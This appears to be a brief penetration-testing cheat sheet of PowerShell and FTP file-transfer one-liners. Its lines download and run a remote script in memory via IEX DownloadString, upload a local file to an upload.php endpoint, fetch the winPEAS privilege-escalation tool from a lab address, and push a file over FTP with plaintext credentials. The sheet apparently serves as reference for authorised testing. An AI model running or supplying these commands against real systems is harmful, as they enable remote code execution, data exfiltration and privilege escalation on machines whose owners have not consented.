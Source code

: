 Execute a script in Memory  
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.177/helloworld.ps1')
 
Upload File  
powershell.exe (New-Object System.Net.WebClient).UploadFile('http://192.168.119.177/upload.php', 'testme.txt')
 
Older Versions  
powershell Invoke-WebRequest -Uri "[http://www.contoso.com](http://www.contoso.com)" -OutFile "C:\path\file"
 
Windows 7  

```
powershell $client = new-object System.Net.WebClient ; $client.DownloadFile("http://10.10.14.15/winpeas.exe","C:\tmp\winpease.exe")



































$ ftp -n <<EOF
￼
open 
ftp.example.com
￼
user user secret
￼
put my-local-file.txt
￼
EOF




```